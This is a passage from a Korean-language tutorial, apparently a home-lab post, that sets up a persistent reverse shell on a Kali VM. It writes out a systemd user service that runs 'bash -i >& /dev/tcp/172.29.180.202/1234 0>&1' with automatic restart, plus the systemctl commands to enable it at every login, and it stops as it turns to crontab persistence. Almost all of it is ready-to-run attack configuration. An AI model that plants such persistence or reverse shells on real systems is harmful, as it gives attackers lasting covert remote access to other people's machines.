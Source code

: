 
```bash
mkdir -p ~/.config/systemd/user

nano ~/.config/systemd/user/reverse-shell.service
```

해당 경로에 파일을 만들어주고 편집기를 켜준다.   

```ini
[Unit]
Description=User Reverse Shell

[Service]
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/172.29.180.202/1234 0>&1'
Restart=always

[Install]
WantedBy=default.target
```

이렇게 작성해주면 된다.  

요약해서 간단하게 소개하자면  

`ExecStart`의 명령어를 쉘이 종료된 이후에도 작동되고,  
`WantedBy=default.target`으로 로그인마다 실행하게 해줬다.   

저장을 해준 뒤  

```bash
systemctl --user daemon-reexec
systemctl --user daemon-reload
systemctl --user enable reverse-shell.service
systemctl --user start reverse-shell.service
```

이렇게 systemd에 적용해주고 실행시켜주면 된다.  
`systemctl --user enable reverse-shell.service` 여기서 알다시피 로그인 시 자동 실행까지 해주면 로그인마다 쉘 연결이 될 것이다.  
<br>

그러고 kali1 VM을 껐다가 다시 로그인해주면?  

<img src="https://github.com/user-attachments/assets/17656b4c-30fa-43c6-8e8c-cd28466b76f5" width=1000>   

이렇게 쉘이 연결된 것을 볼 수 있다.  
근데 쉘이 조금 이상하니까  

<br>

<img src="https://github.com/user-attachments/assets/43f7f742-9cca-4cf6-9c63-d99cf26fd30d" width=1000>  

이렇게 xterm 으로 바꾸고  
pty를 얻어 `systemd`에 재부팅시 `bash -c 'bash -i >& /dev/tcp/172.29.180.202/1234 0>&1'` 를 보내는  
서비스를 등록해주면 익숙한 모양으로 잘 나온다.   
<br>

이제 `crontab`에 스케줄을 등록해주자.   
